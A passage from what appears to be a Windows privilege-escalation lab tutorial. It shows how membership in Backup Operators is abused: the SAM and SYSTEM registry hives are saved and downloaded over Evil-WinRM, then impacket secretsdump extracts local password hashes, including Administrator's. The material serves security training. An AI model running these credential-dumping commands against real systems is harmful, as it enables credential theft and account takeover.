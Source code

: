 ```shell-session
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```

We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:

```shell-session
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```

**Note:** If Evil-WinRM takes too long to download the files, feel free to use any other transfer method.

With those files, we can dump the password hashes for all users using `secretsdump.py` or other similar tools:

```shell-session
user@AttackBox$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9657e898170eb98b25861ef9cafe5bd6:::
thmuser1:1011:aad3b435b51404eeaad3b435b51404ee:e41fd391af74400faa4ff75868c93cce:::
[*] Cleaning up...
```
